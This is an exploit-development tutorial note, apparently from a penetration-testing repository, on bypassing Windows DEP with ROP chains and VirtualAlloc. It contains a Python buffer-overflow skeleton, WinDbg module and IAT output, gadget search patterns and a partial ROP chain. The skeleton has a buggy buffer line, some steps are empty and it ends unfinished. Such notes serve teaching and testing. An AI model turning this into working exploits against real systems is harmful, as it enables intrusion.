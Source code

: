 # DEP Bypass

Uses Gadgets / Rop Chains to call the `VirtualAlloc` function and execute shellcode

### 1. Skeleton Starting Python Code
```
import socket
import sys
from struct import pack

# variables
SIZE = 500

# CommandBuffer
# These lines execute VirtualAlloc with shellcode
cb  = pack("<L", (0x45454545)) # dummy VirtualAlloc Address
cb += pack("<L", (0x46464646)) # Shellcode Return Address
cb += pack("<L", (0x47474747)) # # dummy Shellcode Address
cb += pack("<L", (0x48484848)) # dummy dwSize 
cb += pack("<L", (0x49494949)) # # dummy flAllocationType 
cb += pack("<L", (0x51515151)) # dummy flProtect

# buffer
offset = b'\x41' * SIZE
eip = b'\x42' * 4
rop = b'\x43' * (0x600 - SIZE - len(eip))

buf = b'offset + va + eip + rop'
print('[I] %s : %s' % (len(buf),buf)) # always good to print buffers to make sure they meet expectation

def main():
  if len(sys.argv) != 3:
    print('Usage: %s <ip_address> <port>\n' % (sys.argv[0]))
    sys.exit(1)

  server = sys.argv[1]
  port = sys.argv[2]
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((server, port))
  
  s.send(buf)
  s.close()

  print('[+] Packet sent')
  sys.exit()

if __name__ == '__main__':
  main()
```

### 2. Identify Offset  
...  

### 3. Find Bad Characters 
[Finding Bad Characters](https://github.com/cyberheisen/Penetration-Testing-Notes/blob/main/exploit_dev/identifying_bad_characters.md)  

### 4. Identify File(s) to use for Gadgets
* Files must not have DEP enabled.
* Files must not have bad characters in high bits of memory address
```
# Using Windbg
# list modules
>lm
start    end        module name
00190000 001c3000   snclientapi   (deferred)             
001d0000 001fd000   libcclog   (deferred)             
00400000 00c0c000   GraceServer   (deferred)             
012c0000 01302000   NLS        (deferred)             
01380000 013ab000   gsk8iccs   (deferred)             
01440000 0147a000   icclib019   (deferred)             
030d0000 031c0000   libeay32IBM019   (deferred)

>!dh -f <memory base address>
 ...
  # This means DEP/NX is enabled
    4140  DLL characteristics
            Dynamic base
            NX compatible
            Guard
  ...
  # No DEP enabled
  0  DLL characteristics
```

### 5.  Extract Gadgets from file
[ROPgadget](https://github.com/JonathanSalwan/ROPgadget)  

Using `rp-win-x86.exe`
```
C:\rp-win-x86 -f <file> -r <max number of instructions> > <output file>
```
Load the output file into Visual Studio Code or text editor to search.

### 6.  Access the Bytes containing the dummy VirtualAlloc Address

  1. Save the ESP register address into another register, such as EAX, EDI, or ESI.  This address will later be used with an offset to access the dummy VirtualAlloc Address.
     * Search the gadgets text file for suitable operations to accomplish this.
      - Gadget memory addresses cannot contain bad characters  
      - Remember top of the stack contains the function return address.    
     * Place first gadget into eip.  Subsequent gadgets should be in the 'rop' section
     * Sample searches
       ```
       push esp.* ; .* pop.* ; ret
       mov .*, esp
       xchg .*, esp
       xor .*, .* ; add .*, esp
       lea .*, esp
       sub .*, .*, adc .*, esi
       
       ```
       
    
   ```
    # rop chain
      eip = pack("<L", (0x505412f9))  # mov eax, ecx; ret;  :: csftpav6.dll | copy ecx address to eax
      rop = pack("<L", (0x505115a3))  # pop ecx; ret;  :: csftpav6.dll | pop the offset value into ecx
      rop += pack("<L", (0xffffe770)) # -1680 | offset value
      rop += pack("<L", (0x50533bea)) # sub eax, ecx; ret;  :: csftpav6.dll | subtract eax from ecx to get the start of the VirtualAlloc field

     ...
     buf = offset + cb + eip + rop 
     ```

### 7. Obtaining VirtualAlloc Address

```
#Using Windbg

>lm m <module name>
Browse full module list
start    end        module name
50500000 50577000   module_name   (export symbols)       C:\module_name.DLL

> !dh -f 50500000

File Type: DLL
FILE HEADER VALUES
     14C machine (i386)
       5 number of sections
4C056121 time date stamp Tue Jun  1 12:36:01 2010

       0 file pointer to symbol table
       0 number of symbols
      E0 size of optional header
    2102 characteristics
            Executable
            32 bit word machine
            DLL
...

       0  DLL characteristics
   53870 [    1068] address [size] of Export Directory
   52A2C [      50] address [size] of Import Directory
   60000 [   12500] address [size] of Resource Directory
       0 [       0] address [size] of Exception Directory
   71000 [    16A8] address [size] of Security Directory
   73000 [    2AF4] address [size] of Base Relocation Directory
       0 [       0] address [size] of Debug Directory
       0 [       0] address [size] of Description Directory
       0 [       0] address [size] of Special Directory
       0 [       0] address [size] of Thread Storage Directory
   523E0 [      40] address [size] of Load Configuration Directory
       0 [       0] address [size] of Bound Import Directory
   4A000 [     28C] address [size] of Import Address Table Directory  **** <--- IAT Address ****
       0 [       0] address [size] of Delay Import Directory
       0 [       0] address [size] of COR20 Header Directory
       0 [       0] address [size] of Reserved Directory
       
>dps 5054a000 l28c
5054a000  757f0020 ADVAPI32!RegCreateKeyExA
5054a004  757efc10 ADVAPI32!RegOpenKeyExA
5054a008  757ef560 ADVAPI32!RegCloseKey
5054a00c  758138b0 ADVAPI32!RegSetValueA
5054a010  757e1200 ADVAPI32!RegQueryValueA
5054a014  757f02c0 ADVAPI32!RegDeleteKeyA
5054a018  757f2a70 ADVAPI32!RegEnumKeyA

```
### 8. 

